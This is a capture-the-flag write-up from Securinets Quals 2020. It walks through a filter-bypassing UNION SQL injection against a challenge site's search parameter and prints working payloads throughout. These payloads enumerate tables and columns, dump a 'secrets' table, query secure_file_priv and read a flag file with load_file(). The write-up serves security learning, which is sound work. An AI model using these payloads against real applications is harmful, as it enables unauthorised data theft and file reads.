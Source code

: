 ```yaml
---
title: The After Prequal - Securinets Quals 2k20
summary:
date: "2020-03-23T00:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```


# **The after-Prequal (971pts) (19 Solves)** #

![TASK](https://imgur.com/pXLjH4n.png)

This task was so fun and i learned new things from it , we are given a website with a search functionality and after testing a single quote injection we had an SQL error , so let's start the exploitation of the famous SQL injection :D

![TASK](https://imgur.com/B2IbSxr.png)

After the basic enumeration we can notice that these characters are filtered : **[" ","-",","]** so we will use the following bypasses:

1. The white space : **%0A**
2. The "-" : we will use **#** to comment 
3. The "," : we will use join to bypass it

This step took me some time , after some tries i succeeded in equilibrating the query :

 > ?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0A2)b%0Ajoin%0A(select%0A3)c)%0A%23
 
 ![TASK]( https://imgur.com/5VSI80e.png)

And BINGO ! we succeeded to inject , all we have to do know is to dump the database as usual

1. Tables:

> ?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0Atable_name%0AfRoM%0Ainformation_schema.tables)b%0Ajoin%0A(select%0A3)c)%0A%23

**Table name**: secrets

 ![TASK](https://imgur.com/m190lNI.png)

2. Columns:

> ?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0Acolumn_name%0Afrom%0Ainformation_schema.columns%0Awhere%0Atable_name="secrets")b%0Ajoin%0A(select%0A3)c)%0A%23
 
 The interesting **Column name** : value

 ![TASK](https://imgur.com/TegJtmS.png)

And finally :

> ?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0Avalue%0Afrom%0Asecrets)b%0Ajoin%0A(select%0A3)c)%0A%23
 
 ![TASK](https://imgur.com/8ycD4ru.png)

Damn no flag for us :'( but no problem maybe if we just do load_file("flag.txt") we will have the flag ? unfortunately it wont work, in fact it's not that easy and this is the most juicy part of the task xd
i checked the privileges of the current user and the FILE permission was not grantable ! wtf , this result was unpredictable for me so i started digging in mysql file permissions docs until i found this :D 
 
![TASK](https://imgur.com/TgUXftd.png)

>  To limit the location in which files can be read and written, set the **secure_file_priv** system variable to a specific directory. See Section 5.1.8, “Server System Variables”. 

So probably the author have set a custom location in the global variable **secure_file_priv** , let's check its value in @@GLOBAL.secure_file_priv

>?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0A@@GLOBAL.secure_file_priv)b%0Ajoin%0A(select%0A3)c)%0A%23

![TASK](https://imgur.com/Pdn180B.png)

BINGOOO ! so let's have our flag now : 

> ?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0Aload_file("/var/lib/mysql-files/flag/flag.txt"))b%0Ajoin%0A(select%0A3)c)%0A%23

**FLAG** : Securinets{SecuR3_YourSQL!} , I have enjoyed this task and learned a lot about mysql privileges from it , thank you @bibiwars or should i call you @nox xD If you enjoyed the writeup share it with your friends and don't hesitate to ask me on twitter @BelkahlaAhmed1 :D
